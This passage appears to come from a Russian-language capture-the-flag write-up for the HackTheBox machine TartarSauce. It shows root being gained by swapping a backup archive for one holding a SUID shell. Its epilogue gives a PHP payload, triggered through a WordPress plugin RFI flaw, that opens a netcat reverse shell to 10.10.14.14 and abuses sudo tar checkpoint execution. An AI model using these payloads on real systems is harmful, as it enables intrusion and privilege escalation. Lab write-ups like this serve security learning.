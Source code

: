И подменяем бэкап:
```text
onuma@TartarSauce:/tmp$ cp suid.tar.gz /var/tmp/.7bd9d1b85480847307593e29d70d7b3286d3b586
```

4\. После ожидания в 30 секунд проверяем существование временной директории `/var/tmp/check`, запускаем шелл и забираем свое:
```text
onuma@TartarSauce:/tmp$ cd /var/tmp/
onuma@TartarSauce:/var/tmp$ ls
check                                                                              systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
systemd-private-04b0d1852f684988a72ce63bf6aa6163-systemd-timesyncd.service-rF9I4i  systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS  systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ

onuma@TartarSauce:/var/tmp$ cd check/
onuma@TartarSauce:/var/tmp/check$ ls
var

onuma@TartarSauce:/var/tmp/check$ cd var/www/html/
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls
suid

onuma@TartarSauce:/var/tmp/check/var/www/html$ ./suid
bash-4.3# whoami
root

bash-4.3# id
uid=0(root) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
```

```text
bash-4.3# cat /root/root.txt
e79abdab8b??????????????????????
```

Триумф :triumph:

# Эпилог
## wp-load.php
Чтобы дважды не настраивать шелл, сэкономим себе время, написав такой php-скрипт, позволяющий сразу "прыгать" на пользователя *onuma* при триггере RFI-уязвимости WP-плагина:
```php
<!-- wp-load.php -->

<?php
  system("echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f' > /dev/shm/.sh3ll.sh");
  system("cd / && sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='bash /dev/shm/.sh3ll.sh'");
?>
```
